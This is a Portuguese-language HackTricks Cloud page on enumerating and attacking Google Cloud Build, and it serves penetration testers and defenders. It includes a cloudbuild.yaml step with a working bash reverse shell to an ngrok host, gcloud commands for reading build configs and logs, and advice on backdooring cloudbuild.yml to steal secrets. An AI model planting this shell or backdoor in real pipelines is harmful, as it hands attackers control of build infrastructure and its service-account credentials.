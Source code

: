 # GCP - Enumeração do Cloud Build

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo Telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no GitHub.

</details>

## Informações Básicas

O Google Cloud Build é uma plataforma de CI/CD gerenciada que **automatiza a construção de software** e os processos de lançamento, integrando-se a **repositórios de código-fonte** e oferecendo suporte a uma ampla variedade de linguagens de programação. Ele **permite que os desenvolvedores construam, testem e implantem código automaticamente**, ao mesmo tempo em que oferece flexibilidade para personalizar etapas de construção e fluxos de trabalho.

Cada Cloud Build Trigger está **relacionado a um Repositório do Cloud ou conectado diretamente a um repositório externo** (Github, Bitbucket ou Gitlab).

É possível configurar um Cloud Build para **exigir aprovações para execuções de construção** (desativado por padrão).

A **Conta de Serviço tem o escopo `cloud-platform`**, portanto, ela pode **usar todos os privilégios**. Se **nenhuma Conta de Serviço for especificada** (como ao fazer um envio), a **Conta de Serviço padrão** `<proj-number>@cloudbuild.gserviceaccount.com` será **usada**.

{% hint style="success" %}
Não encontrei nenhuma maneira de roubar o token do Github/Bitbucket daqui ou dos Repositórios do Cloud, porque quando o repositório é baixado, ele é acessado por meio de um URL [https://source.cloud.google.com/](https://source.cloud.google.com/) e o Github não é acessado pelo cliente.
{% endhint %}

### Armazenamento

Às vezes, o Cloud Build **gerará um novo armazenamento para armazenar os arquivos do gatilho**. Isso acontece, por exemplo, no exemplo que o GCP oferece com:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Um bucket de armazenamento chamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) é criado para armazenar um arquivo `.tgz` com os arquivos a serem usados.

### Obter shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeração

Você pode encontrar **informações sensíveis em configurações de compilação e registros**.
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## Escalada de Privilégios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acesso não autenticado

### cloudbuild.yml

Se você comprometer o acesso de gravação a um repositório contendo um arquivo chamado **`cloudbuild.yml`**, você pode **inserir um backdoor** neste arquivo, que especifica os **comandos que serão executados** dentro de um Cloud Build e exfiltrar as informações secretas, comprometer o que é feito e também comprometer a **conta de serviço do Cloud Build**.

{% hint style="info" %}
Observe que o GCP tem a opção de permitir que os administradores controlem a execução de sistemas de compilação a partir de PRs externos por meio do "Comment Control". O Comment Control é um recurso em que colaboradores/donos de projetos **precisam comentar "/gcbrun" para acionar a compilação** em relação ao PR e o uso desse recurso impede que qualquer pessoa na internet acione seus sistemas de compilação.
{% endhint %}

Para obter informações relacionadas, você pode verificar a página sobre como atacar as Ações do Github (semelhante a isso):

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no GitHub.

</details>
